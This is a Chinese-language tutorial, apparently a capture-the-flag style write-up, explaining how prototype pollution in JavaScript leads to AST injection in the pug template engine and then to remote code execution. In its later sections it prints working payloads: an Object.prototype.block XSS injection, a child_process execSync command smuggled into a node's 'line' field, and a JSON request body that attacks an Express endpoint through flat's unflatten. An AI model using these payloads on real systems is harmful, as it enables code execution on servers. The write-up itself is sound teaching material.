


 AST Injection + Prototype pollution to RCE


 模版引擎是什么

JS web开发中常用的模版引擎如 `ejs`、`pug`、`handlebars`
功能：动态渲染HTML代码，创建可重复使用的页面结构


`ejs` 模版使用

```js
// 安装EJS模块：npm install ejs

// 引入EJS模块
const ejs = require('ejs');

// 定义模板
const template = `
  <h1>Hello, <%= name %>!</h1>
`;

// 渲染模板
const data = { name: 'John' };
const html = ejs.render(template, data);

console.log(html);
```


`handlebars` 模版使用

```js
// 安装Handlebars模块：npm install handlebars

// 引入Handlebars模块
const handlebars = require('handlebars');

// 定义模板
const template = `
  <h1>Hello, {{name}}!</h1>
`;

// 编译模板
const compiledTemplate = handlebars.compile(template);

// 渲染模板
const data = { name: 'John' };
const html = compiledTemplate(data);

console.log(html);

```

`pug` 模版使用

```js
// 安装Pug模块：npm install pug

// 引入Pug模块
const pug = require('pug');

// 定义模板
const template = `
  h1 Hello, {name}!
`;

// 编译模板
const compiledTemplate = pug.compile(template);

// 渲染模板
const data = { name: 'John' };
const html = compiledTemplate(data);

console.log(html);

```


 模版引擎的工作原理

词法解析 -\> 语法解析 -\> 代码生成

<!--  -->


但是在语法树处理的过程中，如果存在原型链污染，则可以随意修改AST树，进而影响生成的代码，最终达到RCE（远程代码执行）的目的


<!--  -->


 pug template AST injection 
 
```js
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

当执行到 `fn({msg: 'It works'}); ` 这一步的时候，本质上是进入了一段函数


```js
(function anonymous(pug
) {
function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
    var locals_for_with = (locals || {});
    
    (function (msg) {
      ;pug_debug_line = 1;
pug_html = pug_html + "\u003Ch1\u003E";
;pug_debug_line = 1;
pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp)) + "\u003Cscript\u003Ealert(origin)\u003C\u002Fscript\u003E\u003C\u002Fh1\u003E";
    }.call(this, "msg" in locals_for_with ?
        locals_for_with.msg :
        typeof msg !== 'undefined' ? msg : undefined));
    ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
return template;
})
```


 AST Injection原理分析

 语法树结构

pug 解析 `h1= msg` ，生成的语法树结构：

```js
{
    "type":"Block",
    "nodes":[
        {
            "type":"Tag",
            "name":"h1",
            "selfClosing":false,
            "block":{
                "type":"Block",
                "nodes":[
                    {
                        "type":"Code",
                        "val":"msg",
                        "buffer":true,
                        "mustEscape":true,
                        "isInline":true,
                        "line":1,
                        "column":3
                    }
                ],
                "line":1
            },
            "attrs":[

            ],
            "attributeBlocks":[

            ],
            "isInline":false,
            "line":1,
            "column":1
        }
    ],
    "line":0
}
```

语法树生成后，会调用 `walkAst` 执行语法树的解析过程，依次对每个节点的类型进行判断，即如下代码：

```js
function walkAST(ast, before, after, options){
	
	parents.unshift(ast);

    switch (ast.type) {
	    case 'NamedBlock':
	    case 'Block':
	      ast.nodes = walkAndMergeNodes(ast.nodes);
	      break;
	    case 'Case':
	    case 'Filter':
	    case 'Mixin':
	    case 'Tag':
	    case 'InterpolatedTag':
	    case 'When':
	    case 'Code':
	    case 'While':
	      if (ast.block) { // 注意这里
	        ast.block = walkAST(ast.block, before, after, options);
	      }
	      break;
	    case 'Text':
	      break;
	}
	parents.shift();

}
```

 语法树执行顺序
以刚刚生成的语法树结构举例，解析顺序为：

1. Block
2. Tag
3. Block
4. Code
5. …?

注意第4步解析 `node.Type`  为 `Code` 类型，会执行如下代码：

```js
	    case 'Code':
	    case 'While':
	      if (ast.block) { // 注意这里
	        ast.block = walkAST(ast.block, before, after, options);
	      }
```

1. 判断 `ast.block` 属性是否存在，此处的 `ast` 即当前ast语法树的节点
2. 如果存在，继续递归解析 block

 结合原型链污染

如果某处存在原型链污染漏洞，使得

```js
Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};
```

那么 `ast.block` 就会访问到 `ast.__proto__.block` ，即`Object.prototype.block`  的属性

此时代码输出结果，导致了XSS

```js
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```


 RCE

我们知道pug本质上是将一段代码，如 `h1 =msg` 编译为一段js代码，背后其实就是生成语法树+ `new Function` 

因此如果能通过AST Injection插入节点，并使之成为代码，即可达到远程代码执行的目的。

刚好pug中就有如下代码：

```js
// /node_modules/pug-code-gen/index.js
  
if (debug && node.debug !== false && node.type !== 'Block') {  
    if (node.line) {  
        var js = ';pug_debug_line = ' + node.line;  
        if (node.filename)  
            js += ';pug_debug_filename = ' + stringify(node.filename);  
        this.buf.push(js + ';');  
    }  
}  
```

那么我们通过  AST Injection + Prototype Pollution 即可实现RCE

```js
const pug = require('pug');

Object.prototype.block = {"type":"Text","line":`console.log(process.mainModule.require('child_process').execSync('id').toString())`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html);

```


  Attack example


express 开发的web服务，其中一个CGI如下：

```js
router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello {user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});
```

本地跑起来后运行在1337端口：


<!--  -->

 原型链污染

注意到这一行代码：

```js
const { song } = unflatten(req.body);
```

`unflatten` 这个库存在原型链污染

```js
var unflatten = require('flat').unflatten;
unflatten({ '__proto__.polluted': true });
console.log(this.polluted); // true
```

  AST Injection

注意到这一行代码：

```js
pug.compile('span Hello {user}, thank you for letting us know!')({ user:'guest' })
```

结合原型链污染，可以实现RCE

```json
{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
			"line":"process.mainModule.require('child_process').exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')" // 可以执行任意命令
		}
}
```


 参考
[https://blog.p6.is/AST-Injection/](https://blog.p6.is/AST-Injection/) 


<!--  -->